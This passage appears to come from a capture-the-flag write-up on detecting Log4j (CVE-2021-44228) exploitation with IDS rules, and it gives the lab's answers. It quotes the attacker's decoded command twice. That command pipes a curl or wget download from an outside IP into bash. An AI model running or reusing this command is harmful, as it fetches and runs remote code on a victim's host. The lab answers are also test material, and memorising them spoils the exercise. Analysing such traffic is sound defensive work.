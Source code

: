     - Command: `(curl -s 45.155.205.233:5874/162.0.228.253:80||wget -q -O- 45.155.205.233:5874/162.0.228.253:80)|bash` [].
11. Searched NIST for CVSS v2 score of Log4j (CVE-2021-44228): **9.3** 

**Answers** :
- **Number of detected packets**: 26
- **Number of rules triggered**: 4
- **First six digits of SIDs**: `210037`
- **Number of detected packets (770-855 bytes)**: 41
- **Encoding algorithm**: `base64`
- **Attacker’s command**: `(curl -s 45.155.205.233:5874/162.0.228.253:80||wget -q -O- 45.155.205.233:5874/162.0.228.253:80)|bash`
- **CVSS v2 score**: 9.3  

---



